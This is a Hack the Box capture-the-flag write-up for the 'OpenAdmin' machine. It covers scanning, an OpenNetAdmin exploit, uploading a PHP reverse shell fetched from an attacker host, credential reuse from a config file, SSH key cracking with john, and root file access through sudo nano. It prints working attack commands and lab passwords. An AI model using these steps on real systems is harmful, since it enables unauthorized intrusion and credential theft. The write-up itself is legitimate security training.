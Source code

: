 
# Work in progress

![OpenAdmin](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/ENXDIZYX0AAIur8.jpg)


## Enumeration
\

Start off with a detailed nmap scan:

![nmap](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/nmap.png)
\

Next lets navigate to the webserver in our browser to verify that this in fact the apache default page:

```
http://10.10.10.171/
```
![webserver]
\
As expexted we get the apache default page.  Let's enumerate futher using gobuster:
```
gobuster -w /usr/share/wordlists/dirb/common.txt -t 30 -k -x html,php,txt,asp,aspx -u http://10.10.10.171
```
![gobuster](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/gobuster.png)
\  
Let's look at the music page:

Music:

![music](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/music.png)

I clicked 'login' and it sent me to this page http://10.10.10.171/ona/:

![ona](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/ona.png)

Looks like the web appliaction that is running is out of date.  Now click the "ONA" and "About":

![about](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/ona_about.png)


Lets see if there are any vulnerabilities for OpenNetAdmin (ONA):

![searchsploit](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/searchsploit.png)

## Initial Foothold

After looking at the proof of concept found in exploitdb, we just need to edit the URL to point to the ONA web application:

![poc](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/poc.png)

Execute the bash script with the changes and we get a limited shell on the machine:

![shell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/shell.png)

We are dropped in the /opt/www/ona directory, which is the root for ONA

## Pivoting to User 1

We cannot spawn a tty shell from here, so lets see if we can upload and execute a php-reverse-shell using the following commands:

```
# on our attacking machine
python -m SimpleHTTPServer

# on the target
wget http://10.10.14.152:8000/php-reverse-shell.php

# on either machine, ensure that you have a netcat listener before executing this
curl http://10.10.10.171/ona/php-reverse-shell.php
```

![phpshell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/phpshell.png)

I tried to access the user.txt file in the home directories of both users but was denied:

![userdeny](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/userdeny.png)

After looking through the /var/www/ona directory (linked to /opt/ona/www), I found a database configuration file with a password:

![dbfile](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/dbfile.png)

Lets try to ssh with the credentials jimmy:n1nj4W4rri0R!:

![jimmy_shell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/jimmyshell.png)

## Pivoting to User 2

Success!  But there is no user.txt file in jimmy's home directory:

![jimmyhome](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/jimmyhome.png)

Jimmy cannot sudo on this device or access joanna's home directory.  Looking through the webroot /var/www I found an interesting directory called internal:

![internal](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/internal.png)

Let's look at main.php:

![main](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/main.png)

So if we connect to this webserver, we should receive the private key (id_rsa) for joanna which we can then use to login.  Lets see if the we are listening on port 80:

![netstat](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/netstat.png)

The target is not listening on port 80, but is listening on port 52846, so lets try to connect to that to retrieve the private key:

```
curl http://127.0.0.1:52846/main.php
```
![rsa](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/rsa.png)

We got the private key, but the message from main.php indicates that this private key is password protected, so we will need to use ssh2john (link) and john to crack the password:

Generate a crackable hash with ssh2john:

```
python /usr/share/john/ssh2john.py id_rsa > crack.txt
```
Now crack it with john:
```
john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt
```
![john](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/john.png)

The password for id_rsa is bloodninjas, which goes along with the hint of "ninja" password we saw in the id_rsa.  Now lets try to login as joanna using the private key:

![joanna_shell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/joannashell.png)

## User File 

![userfile](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/userfile.png)

## Privilege Escalation

Start by checking if joanna is allowed to run any commands with sudo:

![sudol](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/sudol.png)

Looks like we can open the file priv using nano with root privilieges:
```
Sudo /bin/nano /opt/priv 
```
There is a native ability in nano to read (CTRL+R) any file in the file system that you specify.  Lets try to read the root.txt file:

![nanoroot](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/nanoroot.png)

## Root File 

![rootfile](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/rootfile.png)
